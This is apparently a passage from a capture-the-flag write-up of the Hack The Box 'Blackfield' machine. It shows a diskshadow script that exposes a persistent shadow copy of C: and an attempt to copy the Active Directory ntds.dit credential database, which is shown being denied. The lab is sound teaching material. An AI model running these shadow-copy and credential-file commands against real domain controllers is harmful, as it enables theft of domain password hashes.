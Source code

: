 > **Victime Machine**:

```cmd
upload diskshadow.txt
diskshadow.exe /s diskshadow.txt                    # :(
#       :( The script file name is not valid.
```

> **Attacker Machine**:

```bash
nvim diskshadow.txt
```

> **diskshadow.txt**

```txt
set context persistent nowriters
add volume c: alias oldboy
create
expose %oldboy% z:
```

> **Victime Machine:**

```cmd
erase diskshadow.txt
upload diskshadow.txt
diskshadow.exe /s diskshadow.txt
#    --> The  drive letter is already in use.
```

> **Attacker Machine**:

```bash
nvim diskshadow.txt
```

> **diskshadow.txt**

```txt
set context persistent nowriters
add volume c: alias oldboy
create
expose %oldboy% w:
```

> **Victime Machine**:

```cmd
upload diskshadow.txt
diskshadow.exe /s c:\temp\diskshadow.txt                                        # :)

copy w:\windows\ntds\ntds.dit c:\Users\svc_backup\Desktop\backup\ntds.dit       # :(
#    --> 'w:\windows\ntds\ntds.dit' is denied.
dir w:\windows\ntds\
```

<br/>
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />